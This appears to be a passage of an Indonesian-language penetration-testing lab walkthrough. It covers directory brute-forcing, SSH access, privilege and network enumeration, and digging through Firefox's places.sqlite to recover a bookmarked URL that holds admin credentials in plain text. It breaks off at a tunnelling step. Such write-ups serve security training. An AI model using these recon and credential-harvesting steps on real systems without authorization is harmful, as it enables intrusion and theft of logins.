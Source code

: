 * **Directory Brute-force**:

```bash
dirsearch -u http://192.168.80.10 -w /home/miquela/wordlist/big.txt
feroxbuster -u http://192.168.80.10 -w /home/miquela/wordlist/medium.txt
gobuster dir -u http://192.168.80.10 -w /home/miquela/wordlist/big.txt
```

Tujuannya mencari info sensitif seperti credential admin.

### 3. Login ke Web Server via SSH

```bash
ssh privilege@192.168.80.10
```

### 4. Post-Access Enumeration

```bash
whoami
hostname
id
sudo -l
sudo id
```

### 5. Cek Informasi Jaringan

```bash
ifconfig
ip a
ip r
route -n
netstat
```

### 6. Mencari File Sensitif

```bash
sudo grep -Rni "bebas saya" / 2>/dev/null
grep -Ril "bebas saya" / 2>/dev/null
find / -type f -iname "bebas_saya" 2>/dev/null
```

Contoh menarik: `places.sqlite`

```bash
cd ~/.mozilla/firefox/<profile-folder>
sqlite3 places.sqlite
.tables
select * from moz_bookmarks;
```

Menemukan link: `http://192.168.98.30/admin/index.php?user=john@child.warfare.corp&pass=User1@#$%6`

### 7. Setup Tunnel dengan Ligolo-ng
